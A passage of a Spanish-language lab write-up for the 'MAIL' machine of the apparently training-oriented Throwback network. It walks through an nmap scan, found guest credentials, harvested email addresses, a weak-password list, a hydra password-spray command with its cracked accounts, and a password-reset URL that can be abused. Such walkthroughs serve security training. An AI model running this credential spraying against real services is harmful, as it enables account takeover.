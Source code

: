 # MAIL

## Initial Scan
```
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:d6:de:a5:9f:ca:5f:e5:65:c2:33:e4:bb:a1:1e:2d (RSA)
|   256 2f:5f:54:d2:60:90:cd:62:cf:52:d2:97:8f:4c:fd:5b (ECDSA)
|_  256 73:c0:b9:db:9f:0c:70:af:36:66:c2:d5:81:80:ed:b8 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Throwback Hacks - Login
|_Requested resource was src/login.php
143/tcp open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: LOGINDISABLEDA0001 capabilities STARTTLS have OK LOGIN-REFERRALS post-login SASL-IR IDLE ENABLE Pre-login ID more listed LITERAL+ IMAP4rev1
| ssl-cert: Subject: commonName=ip-10-40-119-232.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-40-119-232.eu-west-1.compute.internal
| Not valid before: 2020-07-25T15:51:57
|_Not valid after:  2030-07-23T15:51:57
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: capabilities SASL-IR have OK LOGIN-REFERRALS post-login AUTH=PLAINA0001 IDLE ENABLE Pre-login ID more listed LITERAL+ IMAP4rev1
| ssl-cert: Subject: commonName=ip-10-40-119-232.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-40-119-232.eu-west-1.compute.internal
| Not valid before: 2020-07-25T15:51:57
|_Not valid after:  2030-07-23T15:51:57
|_ssl-date: TLS randomness does not represent time
```
## Enum
### Web Server
El web server nos da unas low level credentials para una guest account
```
tbhguest:WelcomeTBH1!
```
Con estas creds aparte de dos flags en esta maquina podemos enumerar una serie de correos de este servidor
```
HumphreyW@throwback.local 
SummersW@throwback.local
FoxxR@throwback.local
DaibaN@throwback.local
PeanutbutterM@throwback.local
PetersJ@throwback.local
DaviesJ@throwback.local
BlaireJ@throwback.local
GongoH@throwback.local
MurphyF@throwback.local
JeffersD@throwback.local
HorsemanB@throwback.local
```
Esto puede sernos muy útil luego.

## Exploit
### Password spray
En otra de las máquinas encontramos una contraseña para HumpreyW, si probamos a hacer password spray en este servicio puede que otro usuario la tenga o podemos ir probando con credenciales debiles como:
```
Summer2020
Management2020
Management2018
Password2020
Throwback2020
Password123
```
En ambos casos tiraremos de hydra
```
hydra -L users -P LIST 10.200.27.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' 

[80][http-post-form] host: 10.200.27.232   login: PeanutbutterM   password: Summer2020
[80][http-post-form] host: 10.200.27.232   login: DaviesJ   password: Management2018
[80][http-post-form] host: 10.200.27.232   login: MurphyF   password: Summer2020
[80][http-post-form] host: 10.200.27.232   login: GongoH   password: Summer2020
[80][http-post-form] host: 10.200.27.232   login: JeffersD   password: Summer2020
```
Esto me deja rapidamente con solo 5 usuarios de la primera lista por comprometer, tiremos con rockyou de fondo por si hay suerte y cae otro

## More enum
### MurphyF
Dentro de los mensjaes de Murphy tenemos un link para hacer password reset de otras accounts
```
Dear Frank Murphy,

Due to the recent firing of the Timekeep developer who had access to our
database, we have decided to issue a password reset. You can do so by
replacing your user account name and your new password in the following
URL:

http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD

Thank you,
IT Security.

```
